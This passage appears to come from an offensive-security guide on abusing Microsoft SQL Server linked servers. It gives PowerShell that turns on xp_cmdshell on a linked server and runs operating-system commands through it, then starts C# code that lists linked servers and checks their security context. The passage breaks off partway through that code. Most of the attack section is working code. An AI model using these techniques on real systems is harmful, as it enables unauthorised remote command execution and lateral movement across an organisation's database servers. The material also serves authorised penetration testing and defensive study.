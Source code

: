 #### 3. **Abuse `xp_cmdshell` on the Linked Server**

If `xp_cmdshell` is enabled or can be enabled on the linked server, you can execute OS commands remotely.

```powershell
$serverInstance = "your_sql_server_instance"
$linkedServer = "LinkedServerName"

# Enable xp_cmdshell on the linked server if not enabled
$query = "EXEC [$linkedServer].master.dbo.sp_configure 'xp_cmdshell', 1; RECONFIGURE;"
Invoke-Sqlcmd -ServerInstance $serverInstance -Query $query

# Run a command on the linked server
$command = "whoami"
$query = "EXEC [$linkedServer].master.sys.xp_cmdshell '$command';"
$result = Invoke-Sqlcmd -ServerInstance $serverInstance -Query $query
Write-Host $result
```

### **Exploiting Linked Security Context Using C#**

#### 1. **Enumerate Linked Servers**

In C#, you can use the `System.Data.SqlClient` namespace to connect to SQL Server and enumerate linked servers.

```csharp
using System;
using System.Data.SqlClient;

class Program
{
    static void Main()
    {
        string connectionString = "Server=your_sql_server_instance;Integrated Security=True;";
        using (SqlConnection connection = new SqlConnection(connectionString))
        {
            connection.Open();

            // Enumerate linked servers
            string query = "EXEC sp_linkedservers";
            using (SqlCommand command = new SqlCommand(query, connection))
            using (SqlDataReader reader = command.ExecuteReader())
            {
                while (reader.Read())
                {
                    string linkedServerName = reader["SRV_NAME"].ToString();
                    Console.WriteLine($"Linked Server: {linkedServerName}");

                    // Test connection to linked server
                    TestLinkedServerConnection(connection, linkedServerName);
                }
            }
        }
    }

    static void TestLinkedServerConnection(SqlConnection connection, string linkedServerName)
    {
        string query = $"SELECT SYSTEM_USER AS CurrentUser, SESSION_USER AS SessionUser FROM [{linkedServerName}].master.sys.databases";
        using (SqlCommand command = new SqlCommand(query, connection))
        {
            try
            {
```